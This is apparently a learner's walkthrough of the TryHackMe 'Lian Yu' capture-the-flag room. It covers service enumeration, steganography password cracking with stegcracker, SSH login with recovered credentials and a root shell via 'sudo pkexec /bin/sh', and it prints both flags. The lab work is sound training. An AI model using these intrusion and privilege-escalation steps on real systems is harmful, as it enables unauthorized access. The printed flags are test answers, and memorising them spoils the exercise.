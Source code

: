 ## A. Enumeration

### A. 1 Nmap

Nmap found the following info, only short details mentioned here, nmap output file saved in /THM/Liam_Yu

```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
80/tcp  open  http    Apache httpd
111/tcp open  rpcbind 2-4 (RPC #100000)

```

### A.2 HTTP



1. Feroxbuster with small wordlist gave us
```
301        7l       20w      235c http://10.10.251.57/island
301        7l       20w      240c http://10.10.251.57/island/2100

```

found a codeword in source code of /island

```
vigilante
```

2. nothing in the common wordlist

With nothing found i used  a writeup for the hint and understood that the .ticket was an extension

```
─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $feroxbuster -u http://10.10.251.57/island/2100/ -w /usr/share/wordlists/small.txt -n -x ticket
```

We found a new url

```
200        6l       11w       71c http://10.10.251.57/island/2100/green_arrow.ticket
```

here we find a string
```
RTy8yhBQdscX
```

Decoded the above string using the cyberchef URL from base52

```
!#th3h00d
```

as per the questions from THM, this is the ftp password and the code can be used as username

### FTP

username - vigilante
pass - !#th3h00d

I found these files in the ftp data sharing

```
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
```

Here i checked for stegnography using

steghide, hexedit, magic bytes, binwalk but found nothing so using the writeup again


## B. Shell

found out about another tool we can use in stegnography and made a note of it: stegcracker

```
stegcracker
```


```
┌─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $[[stegcracker]] aa.jpg /usr/share/wordlists/rockyou.txt 

```

```
ttacking file 'aa.jpg' with wordlist '/usr/share/wordlists/rockyou.txt'..
Successfully cracked file with password: password
Tried 68 passwords
Your file has been written to: aa.jpg.out
password
```

The password was: password

```
─[✗]─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $cat aa.jpg.out
```

this was an unreadable file so i found out the filetype using

```
─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $file aa.jpg.out

aa.jpg.out: Zip archive data, at least v2.0 to extract

```

extracted the file using
```
─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $unzip aa.jpg.out
Archive:  aa.jpg.out
  inflating: passwd.txt              
  inflating: shado
```

```
┌─[✗]─[glack@parrot]─[~/Desktop/THM/Lian_Yu]
└──╼ $cat shado 
M3tahuman
```

maybe this is the password for the other user : slade.

- we get the username by listing the directory on ftp

```
ftp> cd ..
ftp> dir
```
- we find a username `slade` here

It worked, i was able to ssh login into target machine using

username: slade
pass: M3tahuman

easily found the user flag

```
slade@LianYu:~$ cat user.txt
THM{P30P7E_K33P_53CRET5__C0MPUT3R5_D0N'T}
			--Felicity Smoak
```

## C. Priv Esc

Gaining root shell was also easy,

```
User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
slade@LianYu:~$ sudo pkexec /bin/sh
# id
uid=0(root) gid=0(root) groups=0(root) 

```

```
# cat /root/root.txt
                          Mission accomplished



You are injected me with Mirakuru:) ---> Now slade Will become DEATHSTROKE. 



THM{MY_W0RD_I5_MY_B0ND_IF_I_ACC3PT_YOUR_CONTRACT_THEN_IT_WILL_BE_COMPL3TED_OR_I'LL_BE_D34D}
									      --DEATHSTROKE

Let me know your comments about this machine :)
I will be available @twitter @User6825
```